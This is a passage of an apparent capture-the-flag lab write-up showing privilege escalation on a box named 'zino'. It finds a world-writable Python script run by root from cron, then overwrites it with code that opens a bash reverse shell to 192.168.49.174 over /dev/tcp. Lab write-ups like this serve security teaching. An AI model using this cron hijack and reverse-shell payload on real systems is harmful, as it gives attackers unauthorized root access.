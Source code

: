 ```bash
cat local.txt
1******************************d
```

### privielege escalation

```bash
www-data@zino:/tmp$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/3 *   * * *   root    python /var/www/html/booked/cleanup.py
#
www-data@zino:/tmp$ ls -lsah /var/www/html/booked/cleanup.py
ls -lsah /var/www/html/booked/cleanup.py
4.0K -rwxrwxrwx 1 www-data www-data 100 Feb 11 13:00 /var/www/html/booked/cleanup.py
```

> There is a `cronjob` which is vulnerable to a local privilege escalation as it is executed by `root` and the executed file is world writeable.
{: .prompt-info }

Vulnerable `cronjob`: `*/3 *   * * *   root    python /var/www/html/booked/cleanup.py`  
Now we are overwriting the `cleanup.py` file with a reverse shell `python` script to get a `root` shell

new `cleanup.py` content:
```python
#!/usr/bin/env python
import os

os.system("bash -c 'bash -i >& /dev/tcp/192.168.49.174/21 0>&1'")
```
